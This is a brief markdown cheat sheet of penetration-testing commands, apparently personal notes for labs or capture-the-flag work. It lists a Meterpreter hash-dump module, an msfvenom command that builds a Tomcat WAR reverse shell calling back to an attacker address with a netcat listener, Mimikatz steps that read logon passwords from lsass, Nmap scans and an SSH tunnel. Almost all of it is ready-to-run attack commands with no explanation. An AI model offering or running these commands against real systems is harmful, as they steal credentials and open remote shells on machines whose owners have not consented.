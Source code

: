 
# Metasploit

## Meterpreter Hash dump
```sh
msf6 > use post/windows/gather/hashdump

msf6 post(windows/gather/hashdump) > set SESSION 1

msf6 post(windows/gather/hashdump) > exploit
```


## MSFVenom
### Tomcat - war
```sh
msfvenom -p java/jspshellreverse_tcp lhost=10.10.1.2 lport=4444 -f war > shell.war
```
- netcat listener
```
nc -lnvp 4444
```


# Mimikatz
```sh
mimikatz # privilege::debug
mimikatz # inject::process lsass.exe sekurlsa.dll
mimikatz # @getLogonPasswords
```


# Nmap

```sh
nmap -T 4 -p - -A 10.10.1.10
```

Scan port 80
```
nmap -sV -sC -p 80 10.10.1.10
```

Scan UDP port 2049
```
nmap -sV -sC -sU -p 2049 10.10.1.10
```


# SSH
## SSH Tunnel
```sh
ssh -i id_rsa -L 8000:127.0.0.1:8000 cyberq@10.10.1.10
```
